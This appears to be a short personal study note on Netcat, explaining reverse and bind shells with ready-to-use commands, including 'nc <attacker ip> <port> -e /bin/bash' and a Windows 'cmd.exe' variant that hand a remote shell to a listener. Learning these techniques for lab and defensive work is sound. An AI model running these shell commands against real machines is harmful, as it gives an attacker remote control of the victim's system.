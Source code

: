 [Netcat](https://nc110.sourceforge.io/) is a [[Linux]] Command-line Interface (CLI) Based Swiss Army knife tool that is use to read/write data over TCP/UDP. It is a [Back-End](https://en.wikipedia.org/wiki/Front_end_and_back_end) tool which can smoothly be cross utilized by other programs.

The nc (or netcat) utility is used for just about anything under the sun involving TCP, UDP, or UNIX-domain sockets.  It can open TCP connections, send UDP packets, listen on arbitrary TCP and UDP ports, do port scanning, and deal with both IPv4 and IPv6.


***Reverse Shell***

A reverse shell is initiating a shell session on a remote target (victim) machine to an attacker machine. The attacker is listening to a specific port from the target
![[Pasted image 20240915123945.png]]

***Bind Shell

A bind shell is a shell session initiated from the attacker machine to a remote target (victim) machine. The target machine opens up a specified port, from which the attacker is listening to.

![[Pasted image 20240915124356.png]]

Usage: This supposed you already have access to the target's machine by any [[Remote Code Execution]] mean.

***Reverse Shell Use case***
On the attacker's  machine
```
nc -lvp <port>
nc -lvp 4444
```
- l listening mode
- v verbose
- p port integer number to listen to

On the target [[Linux]] machine
```
nc <attacker ip> <port> -e /bin/bash
nc 10.0.2.15 4444 -e /bin/bash
```

On target [[Windows]] machine
```
nc.exe <attacker-ip> <port> -e cmd.exe
nc 10.0.2.15 4444 -e cmd.exe
```

***Bind Shell Use case***
On the victim's machine (target)
```
nc –lvp <bind-port-number> -e /bin/bash
nc -lvp 5555 -e /bin/bash
```

On the attacker's machine
```
nc <victim-IP> <Binded-port>
nc 10.0.2.6 5555
```

This command is also referred as "ncat"


More:
https://www.infosecademy.com/netcat-reverse-shells/



